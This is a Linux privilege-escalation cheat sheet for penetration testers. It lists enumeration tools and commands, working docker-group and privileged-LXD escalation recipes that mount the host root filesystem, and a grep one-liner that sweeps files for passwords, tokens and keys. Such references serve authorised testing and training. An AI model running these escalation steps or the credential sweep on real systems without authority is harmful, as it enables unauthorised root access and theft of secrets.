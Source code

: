# Linux Privilege Escalation

## Tools

#### [LinPEAS](https://github.com/peass-ng/PEASS-ng)

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

#### [LSE](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
wget https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh
```

#### [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash"><strong># Import the image
</strong>lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
</code></pre>

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can add words to the blacklist on the `grep -Ev` section.
{% endhint %}

{% code overflow="wrap" %}
```bash
old_ps=$(ps -eo user,command); while true; do new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" | grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
{% endcode %}

## User Files

```bash
find / -user <user> -xdev 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -air -oP --exclude="*."{js,css,html} '(?i)[[:space:][:punct:]]?(password|pass|passwd|pwd|credentials|creds|secret|token|key)[[:space:][:punct:]]*[:=][[:space:]]*[^[:space:]]{4,}' . | sort -u | awk -F':' '{ match_str = substr($0, index($0,$2)); gsub(/^[[:space:]]+/, "", match_str); if (length(match_str) > 50) { match_str = substr(match_str, 1, 50) "..."; } blue = "\033[34m"; red = "\033[31m"; reset = "\033[0m"; print "\nFile:  " blue $1 reset "\nMatch: " red match_str reset;}'
```
{% endcode %}

